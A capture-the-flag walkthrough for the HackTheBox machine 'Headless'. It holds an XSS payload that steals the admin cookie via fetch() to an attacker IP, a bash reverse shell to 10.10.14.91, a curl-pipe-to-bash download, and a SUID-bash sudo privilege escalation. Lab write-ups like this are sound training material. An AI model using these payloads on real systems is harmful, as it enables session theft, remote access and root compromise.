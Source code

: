 # Headless Write-up

<img src="https://labs.hackthebox.com/storage/avatars/26e076db204a74b99390e586d7ebcf8c.png" width="200" height="200">

## Nmap

`nmap -sC -sV headless.htb`

    PORT      STATE    SERVICE    VERSION
    22/tcp    open     ssh        OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
    | ssh-hostkey: 
    |   256 90:02:94:28:3d:ab:22:74:df:0e:a3:b2:0f:2b:c6:17 (ECDSA)
    |_  256 2e:b9:08:24:02:1b:60:94:60:b3:84:a9:9e:1a:60:ca (ED25519)
    1130/tcp  filtered casp
    1524/tcp  filtered ingreslock
    2068/tcp  filtered avocentkvm
    5000/tcp  open     upnp?
    | fingerprint-strings: 
    |   GetRequest: 
    |     HTTP/1.1 200 OK
    |     Server: Werkzeug/2.2.2 Python/3.11.2
    |     Date: Mon, 25 Mar 2024 08:28:56 GMT
    |     Content-Type: text/html; charset=utf-8
    |     Content-Length: 2799
    |     Set-Cookie: is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs; Path=/
    |     Connection: close
    |     <!DOCTYPE html>
    |     <html lang="en">
    |     <head>
    |     <meta charset="UTF-8">
    |     <meta name="viewport" content="width=device-width, initial-scale=1.0">
    |     <title>Under Construction</title>
    |     <style>
    |     body {
    |     font-family: 'Arial', sans-serif;
    |     background-color: #f7f7f7;
    |     margin: 0;
    |     padding: 0;
    |     display: flex;
    |     justify-content: center;
    |     align-items: center;
    |     height: 100vh;
    |     .container {
    |     text-align: center;
    |     background-color: #fff;
    |     border-radius: 10px;
    |     box-shadow: 0px 0px 20px rgba(0, 0, 0, 0.2);
    |   RTSPRequest: 
    |     <!DOCTYPE HTML>
    |     <html lang="en">
    |     <head>
    |     <meta charset="utf-8">
    |     <title>Error response</title>
    |     </head>
    |     <body>
    |     <h1>Error response</h1>
    |     <p>Error code: 400</p>
    |     <p>Message: Bad request version ('RTSP/1.0').</p>
    |     <p>Error code explanation: 400 - Bad request syntax or unsupported method.</p>
    |     </body>
    |_    </html>
    19842/tcp filtered unknown
    65129/tcp filtered unknown
    1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
    SF-Port5000-TCP:V=7.94SVN%I=7%D=3/25%Time=660135C7%P=x86_64-pc-linux-gnu%r
    SF:(GetRequest,BE1,"HTTP/1\.1\x20200\x20OK\r\nServer:\x20Werkzeug/2\.2\.2\
    SF:x20Python/3\.11\.2\r\nDate:\x20Mon,\x2025\x20Mar\x202024\x2008:28:56\x2
    SF:0GMT\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:
    SF:\x202799\r\nSet-Cookie:\x20is_admin=InVzZXIi\.uAlmXlTvm8vyihjNaPDWnvB_Z
    SF:fs;\x20Path=/\r\nConnection:\x20close\r\n\r\n<!DOCTYPE\x20html>\n<html\
    SF:x20lang=\"en\">\n<head>\n\x20\x20\x20\x20<meta\x20charset=\"UTF-8\">\n\
    SF:x20\x20\x20\x20<meta\x20name=\"viewport\"\x20content=\"width=device-wid
    SF:th,\x20initial-scale=1\.0\">\n\x20\x20\x20\x20<title>Under\x20Construct
    SF:ion</title>\n\x20\x20\x20\x20<style>\n\x20\x20\x20\x20\x20\x20\x20\x20b
    SF:ody\x20{\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20font-family:\
    SF:x20'Arial',\x20sans-serif;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
    SF:0\x20background-color:\x20#f7f7f7;\n\x20\x20\x20\x20\x20\x20\x20\x20\x2
    SF:0\x20\x20\x20margin:\x200;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
    SF:0\x20padding:\x200;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20di
    SF:splay:\x20flex;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20justif
    SF:y-content:\x20center;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20
    SF:align-items:\x20center;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x
    SF:20height:\x20100vh;\n\x20\x20\x20\x20\x20\x20\x20\x20}\n\n\x20\x20\x20\
    SF:x20\x20\x20\x20\x20\.container\x20{\n\x20\x20\x20\x20\x20\x20\x20\x20\x
    SF:20\x20\x20\x20text-align:\x20center;\n\x20\x20\x20\x20\x20\x20\x20\x20\
    SF:x20\x20\x20\x20background-color:\x20#fff;\n\x20\x20\x20\x20\x20\x20\x20
    SF:\x20\x20\x20\x20\x20border-radius:\x2010px;\n\x20\x20\x20\x20\x20\x20\x
    SF:20\x20\x20\x20\x20\x20box-shadow:\x200px\x200px\x2020px\x20rgba\(0,\x20
    SF:0,\x200,\x200\.2\);\n\x20\x20\x20\x20\x20")%r(RTSPRequest,16C,"<!DOCTYP
    SF:E\x20HTML>\n<html\x20lang=\"en\">\n\x20\x20\x20\x20<head>\n\x20\x20\x20
    SF:\x20\x20\x20\x20\x20<meta\x20charset=\"utf-8\">\n\x20\x20\x20\x20\x20\x
    SF:20\x20\x20<title>Error\x20response</title>\n\x20\x20\x20\x20</head>\n\x
    SF:20\x20\x20\x20<body>\n\x20\x20\x20\x20\x20\x20\x20\x20<h1>Error\x20resp
    SF:onse</h1>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Error\x20code:\x20400</p>
    SF:\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Message:\x20Bad\x20request\x20vers
    SF:ion\x20\('RTSP/1\.0'\)\.</p>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Error\
    SF:x20code\x20explanation:\x20400\x20-\x20Bad\x20request\x20syntax\x20or\x
    SF:20unsupported\x20method\.</p>\n\x20\x20\x20\x20</body>\n</html>\n");
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

![image](https://github.com/zer00d4y/writeups/assets/128820441/95bbcb05-a8e7-4a45-b42d-b68849be0c5e)

/support

![image](https://github.com/zer00d4y/writeups/assets/128820441/be651cdc-f8f6-4a41-a3a1-483c2113a2ce)

/dashboard

![image](https://github.com/zer00d4y/writeups/assets/128820441/d96a0e21-7862-4d65-b2f6-1d9e13ce3c98)

![image](https://github.com/zer00d4y/writeups/assets/128820441/65cbc8cd-0826-4b08-9043-cf5c1a187776)

![image](https://github.com/zer00d4y/writeups/assets/128820441/12cd84a3-b7ec-47cb-bea8-793b063db8ee)

## XSS

    python3 -m http.server 80

![image](https://github.com/zer00d4y/writeups/assets/128820441/3bbe5026-5eaa-4c1e-a447-4093f7ed8fa7)

    <img src=x onerror=fetch('http://IP-ADDRESS/'+document.cookie);>

![image](https://github.com/zer00d4y/writeups/assets/128820441/3775aa35-df03-4ba7-97e4-4140a1b6429d)

Admin cookie: `ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0`

![image](https://github.com/zer00d4y/writeups/assets/128820441/2f46367e-f8c0-41e3-aacd-eae73d703a10)

        #!/bin/bash
        /bin/bash -c 'exec bash -i >& /dev/tcp/10.10.14.91/6565 0>&1'

![image](https://github.com/zer00d4y/writeups/assets/128820441/67c884b5-541e-415e-a87c-9c627d7634aa)

start python server

![image](https://github.com/zer00d4y/writeups/assets/128820441/34e786da-1f4b-473f-a6fb-71b73556dc01)

listen port with rlwrap 

![image](https://github.com/zer00d4y/writeups/assets/128820441/c54c6ae0-4dd7-4aa3-bc07-7d1d59d2b7d4)

    curl http://10.10.14.91/shell.sh|bash

![image](https://github.com/zer00d4y/writeups/assets/128820441/5cf2004e-606a-4d55-8906-c9340a3de1d1)

![image](https://github.com/zer00d4y/writeups/assets/128820441/0037011d-77f3-4ec8-9135-d6629d685d19)

    python -c 'import pty;pty.spawn("/bin/bash")'

Ctrl + z

    stty raw -echo;fg

![image](https://github.com/zer00d4y/writeups/assets/128820441/35d48488-e64f-4d87-92b0-3287ec6a66a0)

    export TERM=xterm

get the user flag

![image](https://github.com/zer00d4y/writeups/assets/128820441/b0ecc9e8-a4ed-4fb5-8889-aa502bec0c01)

# Privilege escalation

sudo -l

![image](https://github.com/zer00d4y/writeups/assets/128820441/1e8a4b99-3c88-4cc5-84fc-9729d3dade4e)

cat /usr/bin/syscheck

![image](https://github.com/zer00d4y/writeups/assets/128820441/839c66df-5849-4618-9e6d-b4bf3c4f9d20)

    echo "chmod u+s /bin/bash" > initdb.sh
    chmod +x initdb.sh

![image](https://github.com/zer00d4y/writeups/assets/128820441/c671dc29-33b6-4d6c-a487-baf78ce2d6bc)

    sudo /usr/bin/syscheck
    /bin/bash -p

And get the root flag

![image](https://github.com/zer00d4y/writeups/assets/128820441/85486b7b-9063-42d6-a344-715339749d24)


